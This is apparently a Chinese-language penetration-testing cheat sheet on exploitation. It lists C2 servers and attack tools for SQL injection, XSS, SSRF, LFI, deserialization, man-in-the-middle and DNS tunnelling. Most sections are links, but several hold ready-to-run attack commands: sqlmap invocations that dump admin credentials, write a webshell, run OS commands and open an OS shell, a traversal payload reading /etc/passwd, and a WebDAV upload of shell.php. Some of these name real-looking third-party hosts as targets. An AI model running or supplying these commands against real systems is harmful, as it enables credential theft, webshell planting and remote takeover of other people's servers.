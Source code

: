 漏洞利用
========================================

漏洞查询
----------------------------------------
- searchsploit
	+ ``更新：searchsploit -u`` 
	+ ``poc位置：linux/remote/13853.pl``
	+ ``下载：searchsploit -m php/webapps/7185.php`` 

C2服务器
----------------------------------------
- `Ninja <https://github.com/ahmedkhlief/Ninja/>`_
- `Covenant <https://github.com/cobbr/Covenant>`_
- `WSC2 <https://github.com/ver007/WSC2>`_
- `Cobalt Strike <https://blog.cobaltstrike.com/category/cobalt-strike-2/>`_
- `GRAT2 <https://github.com/r3nhat/GRAT2.git>`_
- `MeetC2 <https://github.com/CMatri/MeetC2>`_

补丁比对
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Zynamics Bindiff <https://dl.google.com/dl/zynamics/bindiff430.msi>`_
- `turbodiff <https://www.coresecurity.com/corelabs-research/open-source-tools/turbodiff>`_
- `patchdiff2 <https://code.google.com/archive/p/patchdiff2/downloads>`_
- `diaphora <http://diaphora.re/>`_

数据库注入
----------------------------------------
- `SQLMap <https://github.com/sqlmapproject/sqlmap>`_
	+ 默认选择不询问用户输入
		``--batch``
	+ 指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
		``sqlmap -u http://www.vuln.cn/post.php?id=1  –dbms mysql –level 3``
	+ cookie注入
		``sqlmap -u http://www.baidu.com/shownews.asp –cookie “id=11” –level 2``
	+ 列举数据库管理系统中的用户
		``–users``
	+ 列举并破解数据库管理系统用户密码Hash值
		``--passwords -v 1``
	+ 列举数据库管理系统的用户权限
		``–privileges``
	+ POST注入
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms`` 
	+ POST查找数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`` 
	+ POST查找当前的数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`` 
	+ POST查找表名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 --tables`` 
	+ POST查找列名
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin --columns`` 
	+ POST爆出数据
		``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin -C user_name,user_pwd --dump`` 
	+ POST指定表单
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`` 
	+ POST加载文件
		``sqlmap -r "post.txt" -p n --dbs`` 
	+ POST查找当前数据库
		``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb" --current-db`` 
	+ 读取与写入文件
		| 首先找需要网站的物理路径，其次需要有可写或可读权限.
		| –file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
		| –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
		| –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
		| ``sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write “f:\webshell\1112.php”``
	+ 执行命令
		``sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig`` 
	+ 使用shell命令
		``sqlmap -r “c:\tools\request.txt” -p id –dms mysql –-os-shell``
- `bbqsql <https://github.com/Neohapsis/bbqsql>`_

非结构化数据库注入
----------------------------------------
- `NoSQLAttack <https://github.com/youngyangyang04/NoSQLAttack>`_
- `NoSQLMap <https://github.com/codingo/NoSQLMap>`_
- `Nosql Exploitation Framework <https://github.com/torque59/Nosql-Exploitation-Framework>`_
- `MongoDB audit <https://github.com/stampery/mongoaudit>`_

数据库漏洞利用
----------------------------------------
- `mysql unsha1 <https://github.com/cyrus-and/mysql-unsha1>`_

XSS
----------------------------------------
- `BeEF <https://github.com/beefproject/beef>`_
- `XSS Reciver <https://github.com/firesunCN/BlueLotus_XSSReceiver>`_
- `DSXS <https://github.com/stamparm/DSXS>`_
- `XSStrike <https://github.com/s0md3v/XSStrike>`_
- `xsssniper <https://github.com/gbrindisi/xsssniper>`_
- `tracy <https://github.com/nccgroup/tracy>`_
- `crlfuzz <https://github.com/dwisiswant0/crlfuzz>`_
- `CRLF-Injection-Scanner <https://github.com/MichaelStott/CRLF-Injection-Scanner>`_

SSRF
----------------------------------------
- `SSRFmap <https://github.com/swisskyrepo/SSRFmap>`_
- `SSRF Proxy <https://github.com/bcoles/ssrf_proxy>`_
- `Gopherus <https://github.com/tarunkant/Gopherus>`_
- `SSRF Testing <https://github.com/cujanovic/SSRF-Testing>`_

模版注入
----------------------------------------
- `tplmap <https://github.com/epinna/tplmap>`_

命令注入
----------------------------------------
- `commix <https://github.com/commixproject/commix>`_

LFI
----------------------------------------
- `LFISuite <https://github.com/D35m0nd142/LFISuite>`_
- `FDsploit <https://github.com/chrispetrou/FDsploit>`_
	+ 目录遍历漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 8``
	+ LFI漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 7 -k root -p /etc/passwd``
		| -k 响应包中搜索关键字
		| -p 指定包含的文件
		| -d 指定路径包含的深度
- burpsuite
	+ Intruder->Sniper
		::
		
			file=§1§/etc/passwd
			选择Sniper攻击方式，payload type选择Character blocks
			Base string:../
			Min length:0
			Max length:20
			step:1

DNS 隧道
----------------------------------------
- `dnstunnel de <https://dnstunnel.de/>`_
- `iodine <https://code.kryo.se/iodine/>`_
- `dnscat2 <https://github.com/iagox86/dnscat2>`_

XXE
----------------------------------------
- `XXEinjector <https://github.com/enjoiz/XXEinjector>`_
- `XXER <https://github.com/TheTwitchy/xxer>`_

反序列化
----------------------------------------
- `phpggc <https://github.com/wh1t3p1g/phpggc>`_
- `ysoserial <https://github.com/frohoff/ysoserial>`_
- `JRE8u20 RCE Gadget <https://github.com/pwntester/JRE8u20_RCE_Gadget>`_
- `Java Serialization Dumper <https://github.com/NickstaDB/SerializationDumper>`_
- `gadgetinspector <https://github.com/JackOfMostTrades/gadgetinspector>`_ A byte code analyzer for finding deserialization gadget chains in Java applications

中间人攻击
----------------------------------------
- `mitmproxy <https://github.com/mitmproxy/mitmproxy>`_
- `MITMf <https://github.com/byt3bl33d3r/MITMf>`_
- `ssh mitm <https://github.com/jtesta/ssh-mitm>`_
- `injectify <https://github.com/samdenty99/injectify>`_
- `Responder <https://github.com/lgandx/Responder>`_ Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication. 

webdav利用
----------------------------------------
- webdav批量扫描：IISPutScanner
- `webdav利用工具 <http://www.webdav.org/cadaver/>`_
	+ ``cadaver http://door.legacyhangtuah.com/webdav/``
	+ 上传webshell: ``put shell.php``